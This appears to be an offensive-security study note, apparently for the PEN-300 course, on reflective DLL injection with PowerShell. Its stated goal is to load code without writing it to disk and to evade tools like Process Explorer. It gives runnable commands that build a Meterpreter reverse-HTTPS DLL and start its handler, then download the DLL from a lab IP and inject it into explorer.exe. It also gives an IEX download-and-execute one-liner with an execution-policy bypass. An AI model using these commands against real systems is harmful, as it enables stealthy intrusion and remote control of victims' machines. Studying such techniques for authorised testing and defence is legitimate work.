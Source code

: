 _LoadLibrary_ performs a series of actions including loading DLL files from disk and setting the correct memory permissions. It also registers the DLL so it becomes usable from APIs like _GetProcAddress_ and is visible to tools like Process Explorer.

Since we do not need to rely on _GetProcAddress_ and want to avoid detection, we are only interested in the memory mapping of the DLL. Reflective DLL injection parses the relevant fields of the DLL's _Portable Executable_ (PE) file format and maps the contents into memory.

The ultimate goal of this technique is to maintain the essential functionality of _LoadLibrary_ while avoiding the write to disk and avoiding detection by tools such as Process Explorer.

We'll reuse the PowerShell reflective DLL injection code (_Invoke-ReflectivePEInjection_[1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)) developed by the security researchers _Joe Bialek_ and _Matt Graeber_.

> Note that the public version of this script fails on versions of Windows 10 1803 or newer due to the multiple instances of _GetProcAddress_ in _UnsafeNativeMethods_. However PEN-300 supplied an updated version to avoid this. I've uploaded it [here](https://github.com/lojique/Scripts/blob/main/Invoke-ReflectivePEInjection.ps1).

The script performs reflection to avoid writing assemblies to disk, after which it parses the desired PE file. It has two separate modes, the first is to reflectively load a DLL or EXE into the same process, and the second is to load a DLL into a remote process.

```powershell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f dll -o met.dll

Or use the DLL Injection payload above
```

```bash
sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set lhost eth0; set lport 443; exploit"
```

To exploit either enter the following in a powershell session:

```powershell
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.183.133/payload.dll')
$procid = (Get-Process -Name explorer).Id
Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

Or use this one-liner:

```powershell
# At the bottom of the Invoke-ReflectivePEInjection.ps1 file:
Invoke-ReflectivePEInjection -PEBytes (New-Object System.Net.WebClient).DownloadData('http://192.168.183.133/payload.dll') -ProcId (Get-Process -Name explorer).Id

# Execute the one-liner 
powershell -Exec Bypass -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.183.133/Invoke-ReflectivePEInjection.ps1')) | Import-Module"

```

[PELoader](https://github.com/Arno0x/CSharpScripts/blob/master/peloader.cs) shows how to perform local process injection without using PowerShell.
